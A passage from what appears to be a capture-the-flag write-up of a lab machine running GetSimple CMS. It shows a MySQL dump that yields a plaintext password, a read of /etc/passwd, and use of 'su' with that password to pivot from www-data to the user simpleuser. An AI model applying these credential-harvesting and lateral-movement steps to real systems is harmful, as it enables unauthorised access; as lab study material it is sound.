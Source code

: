 ```
Database changed
mysql> show tables;
show tables;
+-----------------------+
| Tables_in_getsimpledb |
+-----------------------+
| users                 |
+-----------------------+
1 row in set (0.00 sec)

mysql> select * from users;
select * from users;
+----+--------------+------------------+
| id | username     | password         |
+----+--------------+------------------+
|  1 | getsimpleuser | JpdPLGHB9qeDrgdg |
+----+--------------+------------------+
1 row in set (0.00 sec)

mysql>
```

While conducting a thorough system analysis, we explored the '/etc/passwd' file and made a significant discovery. We identified the existence of a user account named 'simpleuser' on the target machine. This finding provided us with valuable information about additional user accounts, potentially expanding our avenues for further exploitation and lateral movement within the system:

![etc/passwd](etcpass.PNG)

Building upon our previous discoveries, we leveraged the password we acquired from the MySQL database to gain unauthorized access to the 'getsimple' user account. This successful login allowed us to assume the identity of 'getsimple' and further advance our penetration efforts, increasing our control over the compromised system:

```
www-data@simple:/tmp$ su simpleuser
su simpleuser
Password: JpdPLGHB9qeDrgdg

simpleuser@simple:/tmp$ whoami
whoami
simpleuser
simpleuser@simple:/tmp$ cd /home
cd /home
simpleuser@simple:/home$ ls          
ls
simpleuser
simpleuser@simple:/home$ cd simpleuser
cd simpleuser
simpleuser@simple:~$ ls
ls
backup.sh  backupzip.tar  user.txt
simpleuser@simple:~$
```
